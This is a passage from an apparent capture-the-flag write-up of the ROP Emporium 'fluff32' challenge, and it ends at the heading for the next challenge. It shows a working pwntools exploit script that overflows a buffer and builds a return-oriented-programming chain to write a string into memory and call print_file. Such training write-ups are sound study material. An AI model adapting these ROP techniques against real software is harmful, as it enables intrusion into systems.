 ```python
    
    for i in range(len(flag_string)):
        payload += pop_ecx_bswap
        payload += p32(write_location+i, endian='big')
        
        payload += pop_ebx
        payload += p32(cal(flag_string[i]))
        payload += pext_mov_eax
        
        payload += xchg_ecx_dl
        
    return payload
    
def main():
    elf = ELF('fluff32')
    libc = ELF('libfluff32.so')
    p = process('./fluff32')
    
    print_file = elf.symbols['print_file']
    write_location = 0x0804A030
    mov_eax = p32(0x0804854f)                 # 0x0804854f : mov eax, 0xdeadbeef ; ret
        
    payload = b"A" * 44
    payload += mov_eax
    payload += construct_payload(write_location)
    
    # call print_file
    payload += p32(print_file) 
    payload += b"B" * 4 
    payload += p32(write_location)
    
    p.sendline(payload)
    p.interactive()
    
if __name__=='__main__':
    main()
```

![flag](/assets/images/rop_emp/fluff32/flag.png)

## Challenge 7: Pivot (x86)
